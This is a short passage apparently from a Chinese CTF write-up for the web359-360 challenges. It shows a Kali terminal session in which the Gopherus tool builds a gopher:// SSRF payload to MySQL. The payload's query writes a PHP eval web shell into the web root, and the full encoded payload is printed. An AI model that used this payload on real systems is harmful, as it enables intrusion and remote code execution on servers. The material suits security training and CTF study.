 输出：
```php
Array
(
    [scheme] => https
    [host] => example.com
    [port] => 8080
    [user] => user
    [pass] => pass
    [path] => /path/to/resource
    [query] => name=value
    [fragment] => section1
)
```





### web359-360

```(空)
┌──(root㉿kali)-[/home/bx/桌面/Gopherus]
└─# python2 gopherus.py --exploit mysql

                                                                             
  ________              .__                                                  
 /  _____/  ____ ______ |  |__   ___________ __ __  ______                   
/   \  ___ /  _ \\____ \|  |  \_/ __ \_  __ \  |  \/  ___/                   
\    \_\  (  <_> )  |_> >   Y  \  ___/|  | \/  |  /\___ \                    
 \______  /\____/|   __/|___|  /\___  >__|  |____//____  >                   
        \/       |__|        \/     \/                 \/                    
                                                                             
                author: $_SpyD3r_$                                           
                                                                             
For making it work username should not be password protected!!!

Give MySQL username: root                                                    
Give query to execute: select "<?php @eval($_POST[1]);?>" into outfile "/var/www/html/1.php"

Your gopher link is ready to do SSRF :                                       
                                                                             
gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%46%00%00%00%03%73%65%6c%65%63%74%20%22%3c%3f%70%68%70%20%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%31%5d%29%3b%3f%3e%22%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%22%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%31%2e%70%68%70%22%01%00%00%00%01

-----------Made-by-SpyD3r-----------
```

